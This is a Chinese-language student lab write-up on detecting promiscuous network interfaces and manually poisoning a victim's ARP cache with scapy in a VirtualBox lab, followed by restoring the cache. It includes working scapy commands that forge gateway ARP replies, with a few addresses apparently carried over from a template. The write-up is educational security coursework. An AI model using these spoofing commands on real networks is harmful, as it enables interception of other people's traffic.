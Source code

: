 # 实验四

### 实验环境

- VirtualBox 虚拟机
- 攻击者主机（Attacker）：Kali Rolling 2019.2
- 网关（Gateway, GW）：Debian Buster
- 靶机（Victim）： Kali-victim

### 实验准备

- 攻击者主机
  - 08:00:27:c2:a3:40
  - 172.16.111.147
  - ![ip](img\at_ip.png)
- 受害者主机信息
  - 08:00:27:22:46:4f
  - 172.16.111.124
  - ![ip](img\victim_ip.png)
- 网关
  - 08:00:27:a4:00:86
  - 172.16.111.1
  - ![ip](img\gw_ip.png)
- 安装scapy
  - ![scapy](img\scapy.png)


### 实验过程

- 实验一：检测局域网中的异常终端

  ```bash
  # 在victim上检查混杂模式是否启用
  ip link show eth0
  ```

  ![](img\vic_show.png)

  ```bash
  # 开启scapy后再互动终端输入以下代码
  pkt = promiscping("172.16.111.117")
  ```

  ![](img\scapy_start.png)

  ```bash
  # 在victim上开启混杂模式，并检查结果
  sudo ip link set eth0 promisc on
  ip link show eth0
  ```

  ![](img\check.png)

  - 在打开victim的混杂模式的情况下，回到attacker再次进行发包探测可以发现收到了数据包

  ![](img\test.png)

  ```bash
  # 手动关闭该网卡的「混杂模式」
  sudo ip link set enp0s3 promisc off
  ```

  ![](img\off.png)

- 实验二：手工单步“毒化”目标主机的 ARP 缓存

  - 在attacker上进行如下操作

  ```bash
  # 获取当前局域网的网关 MAC 地址
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="192.168.0.1")
  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  ```
  
  ![arp](img\arp_show.png)
  
  ```bash
  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)
  
  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  
  # 伪造网关的 ARP 响应包
  # 准备发送给受害者主机 192.168.0.102
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.124", hwdst="08:00:27:c2:a3:40")
  
  # 发送上述伪造的 ARP 响应数据包到受害者主机
  sendp(arpspoofed)
  ```
  
  ![](img\action.png)
  
  此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
  
  ```bash
  ip neigh
  ```
  
  ![](img\ip_replace.png)
  
  回到攻击者主机上的 scapy 交互式终端继续执行命令。
  
  ```bash
  # 恢复受害者主机的 ARP 缓存记录
  ## 伪装网关给受害者发送 ARP 响应
  restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:a4:00:86", pdst="172.16.111.124", hwdst="08:00:27:22:46:4f")
  sendp(restorepkt1, count=100, inter=0.2)
  ```
  
  ![](img\recover.png)
  
  此时在受害者主机上准备“刷新”网关 ARP 记录。
  
  ```bash
  ## 在受害者主机上尝试 ping 网关
  ping 172.16.111.1
  ## 静候几秒 ARP 缓存刷新成功，退出 ping
  ## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```
  
  ![](img\finish.png)

### 总结与反思

​	首先得益于老师详尽的过程，本次实验算是照猫画虎般的完成了，其次，前期走的第一个弯路就在于，完全按照实验一的背景去做，忽略了新的拓扑图下不同的网络环境，在更改了attacker的网络设置后才正常的开启了实验，这告诉我一个道理，要学会观察，不要一股脑的往前冲。

​	其次，初步认识了scapy，了解了一些基本的语法与操作，亲自上手得到的东西总是收获颇丰的。

### 参考资料

[常见的网络通信命令](https://blog.csdn.net/qq_41105501/article/details/117896789)

[scapy介绍文档](https://www.osgeo.cn/scapy/introduction.html)

[实验 · 网络安全 (c4pr1c3.github.io)](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
